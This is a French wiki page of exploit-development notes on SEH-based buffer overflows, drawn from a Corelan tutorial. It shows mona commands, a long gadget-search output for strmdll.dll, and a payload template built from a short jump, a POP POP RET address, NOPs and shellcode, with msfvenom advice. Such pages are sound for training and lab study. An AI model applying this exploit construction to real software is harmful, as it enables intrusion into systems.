 ```yaml
---
title: SEH
permalink: /SEH/
---
```


Pour afficher le statut des enregistrements SEH avec mona (ou ALT+S sous Immunity). Cette commande affiche aussi l'offset si on y met un pattern MSF:

``` text
!mona exchain
```

Pour lister les modules sans "SafeSEH":

``` text
!mona nosafeseh
```

Basé sur la troisième partie du cours de [Corelan](https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/) sur le développement d'exploits.

La structure global d'un exploit basé sur SEH est la suivante:

``` text
[JUNK][Short JMP          ][Address to POP, POP, RET][NOPs][Shellcode]
[????][Address to next SEH][Address of SEH Handler  ][???????????????]
```

On utilise un pattern pour identifier l'offset nécessaire pour écraser **Address of SEH Handler**. Au moment du crash, immunity bloque l'execution et nous demande si on souhaite lancer l'exception (avec SHIFT+F7/F8/F9). Au moment du blocage on peut voir l'état des adresses liées à SEH en faisant **ALT+S**.

Une fois cela fait il faut écraser cette adresse avec l'adresse d'une instruction de la forme POP, POP, RET. Mona peut servir à faire cela:

``` text
!mona seh -m strmdll.dll
```

Le résultat est le suivant:

``` text
0BADF00D   [+] This mona.py action took 0:00:00
0BADF00D   [+] Command used:
0BADF00D   !mona seh -m strmdll.dll

           ---------- Mona command started on 2016-04-24 07:04:16 (v2.0, rev 566) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Only querying modules strmdll.dll
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 1 modules
0BADF00D       - Querying module strmdll.dll
704D0000   Modules C:\Windows\system32\TAPI32.dll
0BADF00D   [+] Setting pointer access level criteria to 'R', to increase search results
0BADF00D       New pointer access level : R
0BADF00D   [+] Preparing output file 'seh.txt'
0BADF00D       - (Re)setting logfile seh.txt
0BADF00D   [+] Writing results to seh.txt
0BADF00D       - Number of pointers of type 'pop esi # pop edi # ret 0x10' : 1
0BADF00D       - Number of pointers of type 'pop esi # pop edi # ret ' : 1
0BADF00D       - Number of pointers of type 'pop esi # pop ebp # ret 0x0c' : 13
0BADF00D       - Number of pointers of type 'pop ebx # pop ebp # ret 0x10' : 10
0BADF00D       - Number of pointers of type 'pop eax # pop esi # ret ' : 7
0BADF00D       - Number of pointers of type 'pop eax # pop ebp # ret 0x04' : 7
0BADF00D       - Number of pointers of type 'pop eax # pop ebp # ret 0x08' : 4
0BADF00D       - Number of pointers of type 'call dword ptr ss:[ebp-0c]' : 6
0BADF00D       - Number of pointers of type 'pop ebx # pop ebp # ret 0x0c' : 22
0BADF00D       - Number of pointers of type 'pop esi # pop ebp # ret 0x10' : 6
0BADF00D       - Number of pointers of type 'pop esi # pop ebx # ret 0x10' : 1
0BADF00D       - Number of pointers of type 'pop edi # pop esi # ret ' : 48
0BADF00D       - Number of pointers of type 'pop esi # pop ebp # ret 0x1C' : 1
0BADF00D       - Number of pointers of type 'pop esi # pop ebx # ret ' : 24
0BADF00D       - Number of pointers of type 'pop ebx # pop ebp # ret 0x1C' : 1
0BADF00D       - Number of pointers of type 'pop ecx # pop esi # ret ' : 2
0BADF00D       - Number of pointers of type 'pop edi # pop ebp # ret 0x08' : 3
0BADF00D       - Number of pointers of type 'pop eax # pop ebp # ret 0x0c' : 2
0BADF00D       - Number of pointers of type 'pop ebx # pop ebp # ret 0x08' : 41
0BADF00D       - Number of pointers of type 'pop ebp # pop ebx # ret 0x0c' : 3
0BADF00D       - Number of pointers of type 'pop ebx # pop ebp # ret 0x04' : 57
0BADF00D       - Number of pointers of type 'pop edi # pop ebp # ret 0x04' : 1
0BADF00D       - Number of pointers of type 'pop esi # pop ebp # ret 0x04' : 128
0BADF00D       - Number of pointers of type 'call dword ptr ss:[ebp-04]' : 1
0BADF00D       - Number of pointers of type 'pop esi # pop ebp # ret 0x08' : 49
0BADF00D       - Number of pointers of type 'call dword ptr ss:[ebp-18]' : 1
0BADF00D   [+] Results :
48035BC5     0x48035bc5 : pop esi # pop edi # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4802C86E     0x4802c86e : pop esi # pop edi # ret  |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4800564B     0x4800564b : pop esi # pop ebp # ret 0x0c | null {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4800699D     0x4800699d : pop esi # pop ebp # ret 0x0c | null {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4800DAB3     0x4800dab3 : pop esi # pop ebp # ret 0x0c | null {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4800DBAF     0x4800dbaf : pop esi # pop ebp # ret 0x0c | null {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
48018C2F     0x48018c2f : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4801B752     0x4801b752 : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
48021FFA     0x48021ffa : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
48022179     0x48022179 : pop esi # pop ebp # ret 0x0c | ascii {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
48022478     0x48022478 : pop esi # pop ebp # ret 0x0c | ascii {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4802B319     0x4802b319 : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4802D744     0x4802d744 : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4802FC91     0x4802fc91 : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4802FEB2     0x4802feb2 : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4800C91B     0x4800c91b : pop ebx # pop ebp # ret 0x10 | null {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4800DED4     0x4800ded4 : pop ebx # pop ebp # ret 0x10 | null {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
48021B81     0x48021b81 : pop ebx # pop ebp # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
480244D2     0x480244d2 : pop ebx # pop ebp # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
480263C6     0x480263c6 : pop ebx # pop ebp # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open seh.txt...
0BADF00D       Found a total of 440 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.622000
```

Il faut ensuite ajouter un short jump avant l'adresse. L'exploit construit aura la forme suivante:

``` text
content = "A"*(offset-4)+"\x90\xeb\x05\x90"+"\x6e\xc8\x02\x48"+nop*32+buf+nop*1000
```

### Payloads

Lors de l'utilisation de MSFVenom pour créer un payload il est important d'ajouter le paramètre suivant:

``` text
EXITFUNC=SEH
```

[Category:Exploitation](/Category:Exploitation "wikilink") [Category:Méthodologies](/Category:Méthodologies "wikilink")